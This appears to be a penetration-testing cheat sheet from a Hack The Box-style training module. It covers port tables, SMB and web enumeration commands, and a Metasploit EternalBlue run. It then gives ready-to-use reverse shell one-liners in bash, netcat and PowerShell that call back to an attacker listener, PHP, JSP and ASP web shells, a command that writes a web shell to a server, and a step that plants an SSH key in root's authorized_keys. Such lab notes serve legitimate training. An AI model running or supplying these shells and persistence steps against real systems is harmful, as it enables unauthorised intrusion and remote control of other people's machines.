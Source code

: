 ## Getting started Module 

Common ports : 

| Port | Protocol    | Service        |
|------|-------------|----------------|
| 20/21| (TCP)       | FTP            |
| 22   | (TCP)       | SSH            |
| 23   | (TCP)       | Telnet         |
| 25   | (TCP)       | SMTP           |
| 80   | (TCP)       | HTTP           |
| 161  | (TCP/UDP)   | SNMP           |
| 389  | (TCP/UDP)   | LDAP           |
| 443  | (TCP)       | SSL/TLS (HTTPS)|
| 445  | (TCP)       | SMB            |
| 3389 | (TCP)       | RDP            |

SMB 

    nmap --script smb-os-discovery.nse -p445 10.10.10.40
  
    smbclient -N -L \\\\10.129.42.253

    smbclient \\\\10.129.42.253\\users

    // to add user

    smbclient -U bob \\\\10.129.42.253\\users

gobuster dir :

    gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt

gobuster dns and Vhost :

    gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt
    gobuster vhost -u http://inlanefreight.htb:30437 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain

WhatWeb to extract the version of webservers, frameworks ...etc

    whatweb 10.10.10.121
    whatweb --no-errors 10.10.10.121

Search for common exploits :

1. Downlaod exploitdb  `sudo apt install exploitdb -y`
2. Search for the exploit `searchsploit openssh 7.2`

We can also utilize online exploit databases to search for vulnerabilities, like Exploit DB, Rapid7 DB, or Vulnerability Lab.

Metasploit example : 

1. search exploit eternalblue
2. use exploit/windows/smb/ms17_010_psexec
3. set RHOSTS 10.10.10.40 
4. set LHOST tun0
5. check
6. exploit 

Rev shells 

    bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"

Upgrading TTY :

    python -c 'import pty; pty.spawn("/bin/bash")'

    www-data@remotehost$ ^Z

    MysterPedro@htb[/htb]$ stty raw -echo;fg

    [Enter]
    [Enter]
    www-data@remotehost$

after we get interactive shell

either we set Term to `export TERM=xterm` or 


    MysterPedro@htb[/htb]$ echo $TERM

    xterm-256color

    MysterPedro@htb[/htb]$ stty size

    67 318

    www-data@remotehost$ export TERM=xterm-256color

    www-data@remotehost$ stty rows 67 columns 318

Web Shell : 

    php : <?php system($_REQUEST["cmd"]); ?>
    php : <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
    jsp : <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
    asp : <% eval request("cmd") %>

Uploading a Web Shell :
Either we upload it thought a vuln, or 

    echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php

    http://SERVER_IP:PORT/shell.php?cmd=id

SSH Keys : 
    ssh-keygen -f key
    echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
    chmod 600 key
    ssh root@10.10.10.10 -i key

Run sudo for other user : 

    MysterPedro@htb[/htb]$ sudo -l

    (user : user) NOPASSWD: /bin/echo

    MysterPedro@htb[/htb]$ sudo -u user /bin/echo Hello World!

    Hello World!
Format xml grep to `xmllint --format -`